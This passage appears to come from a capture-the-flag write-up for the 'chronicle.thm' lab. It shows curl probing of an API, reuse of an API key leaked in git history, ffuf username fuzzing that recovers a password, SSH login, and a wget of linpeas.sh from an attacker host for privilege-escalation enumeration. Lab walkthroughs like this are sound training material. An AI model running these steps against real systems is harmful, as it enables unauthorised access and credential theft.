 * On navigating to /api, we get 'API Action Missing'. We can try different request formats:

  ```sh
  curl -X POST http://chronicle.thm:8081/api -H "Content-Type: application/json"
  # 405 Method not allowed

  curl -X POST http://chronicle.thm:8081/api/username -H "Content-Type: application/json"
  # testing with a random username
  # 400 Bad request

  curl -X POST http://chronicle.thm:8081/api/username -H "Content-Type: application/json" -d '{"key":"NULL"}'
  # Invalid API Key
  ```

* From the commit history that we checked earlier for '/old/.git', we can use the username and key found:

  ```sh
  curl -X POST http://chronicle.thm:8081/api/admin -H "Content-Type: application/json" -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}'
  # invalid username
  ```

* This time, the API key is correct but username is incorrect, so we will have to fuzz for the correct username:

  ```sh
  ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -u "http://chronicle.thm:8081/api/FUZZ" -H "Content-Type: application/json" -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}'
  # identify size to be filtered

  ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -u "http://chronicle.thm:8081/api/FUZZ" -H "Content-Type: application/json" -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}' -fs 16
  # this gives us a valid username

  curl -X POST http://chronicle.thm:8081/api/tommy -H "Content-Type: application/json" -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}'
  # gives password "DevMakesStuff01"
  ```

* Since the /login page on port 8081 does not work, we can try these creds on SSH:

  ```sh
  ssh tommy@chronicle.thm
  # it works

  cat user.txt
  # user flag

  ls -la /home
  # we have 'carlJ' and 'tommyV'

  sudo -l
  # not allowed

  # we can try enumeration using linpeas

  cd /tmp

  # start server on attacker machine to transfer file
  wget http://10.14.60.75:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```